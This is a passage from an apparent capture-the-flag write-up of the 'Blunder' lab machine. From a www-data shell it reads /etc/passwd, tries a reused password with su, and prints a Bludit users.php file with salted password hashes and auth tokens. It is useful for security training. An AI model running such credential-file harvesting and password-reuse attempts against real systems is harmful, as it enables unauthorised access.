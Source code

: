 ## Pivoting to user `hugo`
First, we need to know what other users exist in the system:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```
We can see `shaun`, `hugo` and `temp` are users. We can first try reusing `RolandDeschain` to login as them:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
Password: 
su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su shaun
Password: 
su: Authentication failure
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su temp
Password: 
su: Authentication failure
```
So these credentials are not valid. If we take a look at the server files, we finde `/var/www/bludit-3.9.2/bl-content/databases/users.php`, from were we can enumerate two users `admin` and `fergus`. Also, we can see two passwords encrypted:
```json
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
```